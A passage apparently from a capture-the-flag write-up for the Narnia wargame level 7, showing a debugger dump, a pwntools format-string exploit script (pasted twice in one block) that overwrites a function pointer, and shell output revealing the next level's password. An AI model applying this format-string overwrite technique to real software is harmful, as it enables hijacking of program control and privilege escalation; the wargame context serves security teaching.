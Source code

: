 ```bash
ESP: 0xffffd61c --> 0xffffd62c ("AAAA80486ff414141413834303834666636")
EIP: 0x80486b2 (<vuln+151>:     add    esp,0xc)
EFLAGS: 0x296 (carry PARITY ADJUST zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80486a9 <vuln+142>:        lea    eax,[ebp-0x80]
   0x80486ac <vuln+145>:        push   eax
   0x80486ad <vuln+146>:        call   0x8048500 <snprintf@plt>
=> 0x80486b2 <vuln+151>:        add    esp,0xc
   0x80486b5 <vuln+154>:        mov    eax,DWORD PTR [ebp-0x84]
   0x80486bb <vuln+160>:        call   eax
   0x80486bd <vuln+162>:        leave  
   0x80486be <vuln+163>:        ret
[------------------------------------stack-------------------------------------]
0000| 0xffffd61c --> 0xffffd62c ("AAAA80486ff414141413834303834666636")
0004| 0xffffd620 --> 0x80 
0008| 0xffffd624 --> 0xffffd892 ("AAAA%x%x%x%x")
0012| 0xffffd628 --> 0x80486ff (<goodfunction>: push   ebp)
0016| 0xffffd62c ("AAAA80486ff414141413834303834666636")
0020| 0xffffd630 ("80486ff414141413834303834666636")
0024| 0xffffd634 ("6ff414141413834303834666636")
0028| 0xffffd638 ("14141413834303834666636")
[------------------------------------------------------------------------------]

````

```python
#!/usr/bin/python
from pwn import *

ptr = 0xffffd648
payload = p32(ptr) +'%34592x'  + '%hn' 

p = process(['/narnia/narnia7', payload])

p.interactive()#!/usr/bin/python
from pwn import *

ptr = 0xffffd648
payload = p32(ptr) +'%34592x'  + '%hn' 

p = process(['/narnia/narnia7', payload])

p.interactive()
```
```bash
narnia7@narnia:/tmp/CEZARPP$ ./exp.py 
[+] Starting local process '/narnia/narnia7': pid 30407
[*] Switching to interactive mode
goodfunction() = 0x80486ff
hackedfunction() = 0x8048724

before : ptrf() = 0x80486ff (0xffffd648)
I guess you want to come to the hackedfunction...
Way to go!!!!$ whoami
narnia8
$ cat /etc/narnia_pass/narnia8
mohthuphog
```
